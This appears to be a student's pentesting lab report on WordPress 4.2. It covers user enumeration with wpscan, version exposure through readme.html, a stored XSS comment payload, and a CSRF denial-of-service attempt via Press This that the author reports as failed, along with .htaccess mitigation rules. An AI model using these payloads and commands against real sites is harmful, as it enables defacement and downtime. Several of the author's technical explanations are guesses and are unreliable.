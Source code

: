 # Project 7 - WordPress Pentesting

Time spent: **10** hours spent in total

5 for setup, 5 for expoiting

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. Weak Use Enumeration Protection
  - [ ] Summary: All registered users to the WP site are checked for and listed by the WPScan tool. Even better, the tool will note that default user names are in use, which may lead to default passwords also still being utilized. Having a full list of active users could lead to an easy login for a hacker. Weak passwords are common enough that if a site had dozens of users, one is bound to give away a login. 
    - Vulnerability types: User Enumeration
    - Tested in version: 4.2
    - Fixed in version: From my research, there is no obvious fix provided by WP. Instead, there are third party addons that can help prevnent User Enumeration. Even still, these have been exploited by hackers and require their own patching. Thus far, the only fix is to change the source code for how WP handles users. Although I don't quite understand how or why it works, this is some code that will change how WP handles users, and will prevent user enumeration.
     
      change in: .htaccess:
      ```
      RewriteCond %{REQUEST_URI} !^/wp-admin [NC]
      RewriteCond %{QUERY_STRING} author=\d
      RewriteRule ^ - [L,R=403]
      ```
      AND/OR
      ```
      RewriteCond %{REQUEST_URI} !^/wp-admin [NC]
      RewriteCond %{QUERY_STRING} ^author=\d+ [NC,OR]
      RewriteCond %{QUERY_STRING} ^author=\{num 
      RewriteRule ^ - [L,R=403]
      ```
      
  - [ ] GIF Walkthrough: ![](https://raw.githubusercontent.com/trezzan/RepoBoi/master/UserEnumeration.gif)
  - [ ] Steps to recreate: in Kali terminal enter
  ```
  "wpscan --url http://wpdistillery.vm --enumerate utp"
  ```
  - [ ] Affected source code: unknown
    
2. Easy Website Fingerprinting; Exposed Version #
  - [ ] Summary: The readme file for the WP site is exposed by default. Within the file is the version number of WP. Although the WPScan tool finds this easily, a user that wants to check without booting Kali or using tools can very simply check for a readme file. Once the version number is found, a simple internet search will net all possible vulns in that version number. Doing all of this without using Kali or WPScan makes for an even easier barrier of entry for any hacker to attack the WP site. 
    - Vulnerability types: Version Number Exposure
    - Tested in version: 4.2
    - Fixed in version: Not Fixed. Admins must force the readme files content to be changed or remove access to the page. 
  - [ ] GIF Walkthrough: ![](https://raw.githubusercontent.com/trezzan/RepoBoi/master/ReadMe.gif)
  - [ ] Steps to recreate: Any WP site that is known to be Wordpress: add the text
  '''
  /readme.html
  '''
  at the end. This will show the readme file and the correspondeing version number. 
  - [ ] Affected source code: unknown

3. Unauthenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: The script executed would normally not affect the site. However, when overloading it with characters beyond the size of 64 KB, the comment gets stored in the WP database instead of cache (I think that is where it goes). The leads to it executing every single time the overflow comments are read (often). When the script is stored more than once, it will freeze the site. No scrolling. No functioning links. No useability. 
    - Vulnerability types: XXS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: ![](https://raw.githubusercontent.com/trezzan/RepoBoi/master/XSS.gif)
  - [ ] Steps to recreate: Find  a section to comment on a page or post. Fields other than body don't really matter. Insert the script to alert, and overload it with characters. Submit and wait for the site to die slowly. It is important to already be approved to comment or the admin will easily deny. Post something simple first, then go in for the kill!
  - [ ] Affected source code:
    - MySQL database up to v.5.5.41

4. Press This CSRF DoS **(ATTEMPTED:FAILED)**
  - [ ] Summary: Creating a file on a secondary server and sending a link to the admin account crashes their WP site. This can be done in the comments to ensure that they are logged in. The file has commands that (if repeated enough) will DDoS the site and bring it down for a while trying to complete the URL command. 
    - Vulnerability types: XXS
    - Tested in version: 4.2
    - Fixed in version: 4.2.13
  - [ ] GIF Walkthrough: none; all attempts unsuccessful
  - [ ] Steps to recreate:
  -On an external server, create a large text file with the command:
perl -e 'print "<>"x28000000' > foo.txt
- Next, create a file called dos.html on the external server with enough
entries to fill the connection pool of the WordPress server, as follows:
```
<img src='http://<wp
server>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=b'>
```
- [repeat as many times as preferrerd]
- (replace <wp server> with the WordPress server address and <external
server> with the external server)
- Now have a logged in admin visit dos.html. The server will be down for a
while.
  
  
  [ ] Affected source code: entire site crash
## Assets
```
<a title='x onmouseover=alert(unescape(/gawt%20hahkd/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[a whole lot of these]..AAA'></a>
```


## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

- [ ] Troubles: 
  - Understanding how to correctly initiate and manage the vagrant framework was a big challenge. Now that i know how it works, it seems like very powerful tool that i can imagine security researchers clamor for. 
  - Attempting the CSRF DDoS was difficult. I have not spend enough time in 'hacker' mode to understand how, why, and when certain actions work. I was unsure why perl was required to pull off the file creation. Further, I could not get an effective link to publish. By that I mean I DID publish a link to the page, but the link was inneffective. I think the creation of it was incorrect, but I ran out of time trying to figure it out. 


## License

    Copyright [2018] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
